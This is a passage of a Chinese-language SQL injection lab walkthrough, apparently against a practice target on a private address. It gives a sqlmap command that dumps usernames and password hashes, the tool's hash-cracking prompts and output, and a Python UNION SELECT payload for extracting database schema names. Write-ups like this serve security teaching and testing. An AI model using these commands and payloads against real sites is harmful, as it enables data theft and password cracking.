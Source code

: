 根据表名 和 字段名获取需要数据：

```
python sqlmap.py -u 'http://192.168.55.3/cat.php?id=1' --dump -T users -C 'id,login,password'
```

输入指令后，sqlmap 会出现下面两条提示信息：

```
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
```

第一条提示你是否要将输出hash值存为文件的形式，选择 y，会有这样的输出：

```
[19:58:58] [INFO] writing hashes to a temporary file '/tmp/sqlmaproUpwb3439/sqlmaphashes-wBdpRh.txt'
```

文件内容如下（用户名 + 密码的 hash 值的形式）：

```
admin:8efe310f9ab3efeae8d410a8e0166eb2
```

第二条提示信息：

```
do you want to crack them via a dictionary-based attack? [Y/n/q] 
```

选择 yes，sqlmap 会为你提供一个简单的字典匹配 hash 值。结果如下：
![sqlmap_fourth](image/sqlmap_fourth.jpg)

hash值 和 密码都显示在上面。



### Step 5 : 代码实现注入

```python
import requests
import re
# 代码内容是针对题目经过手工分析刻意构造，不具备一般性

# 0x7177657E <=> qwe~,正则匹配需要
DATABASE_REQUEST = '1 Union selEct 1,cOnCat(0x7177657E,schema_name,0x7E717765),3,4 from INFORMATION_SCHEMA.SCHEMATA'

# 正则匹配提取数据
def extractData(url):
    r = requests.get(url)
    t = r.text
    res = re.findall(r"qwe~(.+?)~qwe", t)
    if len(res) > 0:
        return res

```

[sqlmap]: https://github.com/sqlmapproject/sqlmap 